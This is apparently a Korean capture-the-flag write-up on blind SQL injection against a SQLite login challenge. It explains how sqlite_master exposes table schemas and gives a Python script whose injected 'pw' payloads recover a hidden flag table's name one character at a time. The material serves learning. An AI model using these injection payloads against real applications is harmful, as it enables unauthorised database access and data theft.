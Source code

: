 주석에 있는 힌트는 다음과 같습니다.

```
// Flag is in `flag_{$hash}` table, not in `member` table. Let's look over whole of the database.
```

blind sql injection을 수행하되, 현재 테이블이 아닌 다른 테이블에 있는 데이터를 찾아야 합니다.

## 풀이

mysql은 information_schema.tables를 이용해서 다른 테이블의 정보를 가져왔다면, sqlite는 sqlite_master 테이블에서 다른 테이블의 정보를 저장하고 있습니다.

sqlite_master 테이블의 스키마는 다음과 같습니다.

```sql
CREATE TABLE sqlite_master (
  type TEXT,
  name TEXT,
  tbl_name TEXT,
  rootpage INTEGER,
  sql TEXT
);
```

**테이블 정보 가져오기**
- ```SELECT tbl_name FROM sqlite_master ```

**컬럼 정보 가져오기**
- ```SELECT sql FROM sqlite_master WHERE tbl_name='Table_Nmae'```
- sql 정보는 'Table_Name' 테이블을 만들 때 사용한 create sql문을 담고 있습니다. 별도의 컬럼 명이 따로 저장되지 않기 때문에 해당 정보에서 column 명을 가져와야 합니다.


**테이블명 가져오는 코드**

```python
pw_len = 0
for i in range(5,30):
    params["pw"] = "' or length((select tbl_name from sqlite_master limit 1,1)) = {} --".format(i)
    response = requests.get(url,params=params,cookies=cookies)
    print(params)
    if "Hello guest" in response.text:
        print("find the pw_len ", i)
        pw_len = i
        break

domain = string.digits + string.ascii_lowercase
# 테이블 명
table_name = 'flag_'
for i in range(6,pw_len + 1):
    for j in domain:
        params["pw"] = "' or substr((select tbl_name from sqlite_master limit 1,1),{},1) = '{}'-- ".format(i,j)
        response = requests.get(url,params=params,cookies=cookies)
        print(params)
        if "Hello guest" in response.text:
            table_name += j
            print("find the table_name ", table_name)
            break
```
